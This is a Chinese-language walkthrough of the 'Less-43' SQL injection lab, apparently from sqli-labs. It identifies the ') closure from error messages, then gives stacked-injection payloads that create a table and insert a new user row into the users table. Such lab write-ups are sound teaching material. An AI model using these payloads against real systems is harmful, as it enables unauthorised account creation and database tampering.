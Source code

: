 ```yaml
---
title: Less - 43
date: 2023-03-21T13:13:55Z
lastmod: 2023-03-22T11:48:57Z
---
```


# Less - 43

---

# 通关教程

---

## 1、判断闭合

---

发现跟less-42一模一样

​![image](assets/image-20230321131933-irkp0rg.png)​

在password的位置输入admin'

​![image](assets/image-20230321132239-ocla0c6.png)​

根据错误信息判断闭合方式为’)#，并且为字符型注入。因为有完整的错误回显，这里肯定也是能使用报错注入攻击的，但是这里我们就不使用报错注入攻击了，我们直接使用堆叠注入攻击

---

## 2、创建一张表

---

```http
a');create table test like users;#
```

​![image](assets/image-20230321133202-4govs08.png)​

​![image](assets/image-20230321133219-slz6lg6.png)​

---

## 3、创建一个新用户

---

```http
a');insert into users values(18,'cmx','cmx')#
```

​![image](assets/image-20230322114839-u1sa1o4.png)​

​![image](assets/image-20230322114855-r7ari29.png)​

‍

